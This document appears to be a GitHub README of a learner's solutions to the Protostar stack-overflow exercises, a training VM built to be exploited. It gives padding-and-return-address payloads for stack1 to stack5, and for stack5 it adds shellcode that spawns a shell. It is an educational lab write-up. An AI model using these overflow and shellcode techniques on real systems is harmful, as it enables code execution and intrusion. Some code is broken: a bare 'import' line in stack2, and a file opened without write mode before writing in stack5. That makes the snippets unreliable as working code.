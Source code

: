 b# Protostar Solutions
- Inspired by Liveoverflow's solutions, meant to help me learn binary exploitation
https://old.liveoverflow.com/binary_hacking/protostar/index.html
https://github.com/z3tta/Exploit-Exercises-Protostar
- Some were done by myself

## Stack 1
`/opt/protostar/bin/stack1 $(python -c 'print("A"*4*16+"\x64\x63\x62\x61")')`

## Stack 2
Python program
```
import 
os.environ['GREENIE']='AAAABBBBCCCCDDDD'*4+'\x0a\x0d\x0a\x0d'
os.system('/opt/protostar/bin/stack2')
```

## Stack 3 
1. Use objdump to find memory address of the win function
2. Find out the minimum amount of padding to get the program to crash (Just Manual Labour)
3. Replace the padding with the memory address to overwrite it

```
python -c "print('A'*4*16+'\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
```


## Stack 4 
Win function Memory Address at 0x080483f4.
Using gdb to debug, The input text starts at 0xbffff7e0, ebp at 0xbffff828
1. By brute forcing the padding, the program has no segmentation fault with maximum padding of about 'A'*4*18?
2. Through more testing of the padding (modify numbers of the below command), you find the address where the code execution is successfully redirected
  - Because the return pointer is 1 DWORD after ebp
```
python -c "print('A'*4*19+'\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
```

## Stack 5
Through gdb, $ebp is at 0xbffff79b
Python program to generate input
```
padding = 'A'*4*(18+1) # +1 because you actually want to overwrite eip not ebp
eip = "\xbf\xff\xf7\xc0"[::-1]
nop = "\x90"
shellcode = "\x31\xdb\xb3\x03\x31\xc9\xb1\x03\xfe\xc9\x31\xc0\xb0\x3f\xcd\x80\x80\xf9\xff\x75\xf3\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload = padding+eip+nop*4*10+shellcode
print(payload)
with open("/tmp/input") as f: f.write(payload)
```
Shell commands
```
(cat /tmp/input; cat) | ./stack5
```
